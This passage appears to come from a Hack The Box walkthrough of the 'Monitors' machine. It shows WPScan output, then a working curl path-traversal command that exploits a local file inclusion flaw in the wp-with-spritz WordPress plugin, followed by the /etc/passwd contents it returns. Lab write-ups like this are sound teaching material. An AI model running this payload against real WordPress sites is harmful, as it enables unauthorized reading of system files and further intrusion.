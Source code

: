    | Version: 2.1.7 (80% confidence)
   | Found By: Style (Passive Detection)
   |  - http://monitors.htb/wp-content/themes/iconic-one/style.css?ver=1.7.8, Match: 'Version: 2.1.7'

   [+] wp-with-spritz
    | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
    | Latest Version: 1.0 (up to date)
    | Last Updated: 2015-08-20T20:15:00.000Z
    |
    | Found By: Urls In Homepage (Passive Detection)
    |
    | Version: 4.2.4 (80% confidence)
    | Found By: Readme - Stable Tag (Aggressive Detection)
    |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

WORDPRESS ADMIN LOGIN: http://monitors.htb/wp-login.php

2. Googling on the plugin, wp spritz, there seem to be a LFI vulnerability. Download the python script and start enumerating the
inside of the box. (Or simply use cURL)

[root:/git/htb/monitors]# curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php\?url\=../../../../../../etc/passwd
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
  systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
  syslog:x:102:106::/home/syslog:/usr/sbin/nologin
  messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
  _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
  lxd:x:105:65534::/var/lib/lxd/:/bin/false
  uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
  dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
  landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
  sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
  marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
  Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
  mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false
